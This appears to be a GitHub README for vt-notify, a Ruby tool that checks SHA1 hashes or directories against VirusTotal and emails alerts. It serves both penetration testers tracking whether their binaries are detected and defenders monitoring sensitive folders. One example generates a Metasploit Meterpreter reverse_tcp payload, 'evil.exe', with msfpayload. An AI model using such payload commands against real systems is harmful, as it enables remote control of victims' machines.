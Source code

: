 
Virus Total Notifier
=========

This project was originally created to notify the user when Virus Total had a report for a specific binary (i.e. one used in a penetration test or otherwise) the penetration tester could be notified via log or email. It runs in an infinite loop and does not check files or hashes that have already been detected by the program; It does, however, continue to re-check hashes that haven't been detected.

This program can also be used as a detection mechanism. Target it towards your web-root or other sensitive directory and it will notify you when anything that has a report on Virus Total is added to your directory.

The script doesn't have anything OS specific in it, so it should be portable anywhere Ruby is installed.


Usage
========

```
Usage: vt-notify [options]
    -e EMAIL // email address of who to notify upon detection, will only log to file if not specified
    -m SMTPSERVER // smtp server to relay email through
    -s FILENAME // file name of binary to keep track of
    -S SHA1 // single SHA1 to keep track of
    -f FILENAME // file containing sha1 hashes of files to keep track of
    -d DIRECTORY // directory of binaries keep track of
    -a APIKEYFILENAME // file contianing API key hash on first line, defaults to apikey.txt
    -l LOGFILENAME // file to write/read positive entries to/from, defaults to results.log
    -i INTERVAL // how often VT is checked, defaults to every 10 minutes
    -h // this help screen
```

For example, the following takes all 500+ files in the hackarmoury repository, SHA1 hashes them and checks them against Virus Total. The ones that have been submitted (even those that have a 0 detection rate) are reported via email to justanotheruser@gmail.com via the Gmail email servers. 
```
./vt-notify.rb -d /opt/hackarmoury/ -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com
```

Another example is taking a freshly generated 'evil.exe' from Metasploit:
```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.92.100 X > evil.exe
```
And setting up vt-notify to just check on it, with the notifications going to the same gmail account, checking every 20 seconds:
```
./vt-notify.rb -s evil.exe -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com -i 20
```
Then, acting as the incident responder, I upload the "found" malware to Virus Total and almost instantly:
```
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   1
Found:       0

check complete, sleeping for 20 seconds
4f4c103911eff1668199ff7fbce5e87rae1hee0d was found 35 out of 46 on 2012-12-28 08:29:59
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   0
Found:       1
```
Hash lists are also supported in hash-per-line files (-f) and single SHA1 (-S), however I don't have the ability to support multiple singles on the command line (-S) or (-s)

### Credits
Credit to @mubix for the original vt-notify script
Credit to @ashtinblanchard for bringing it forward
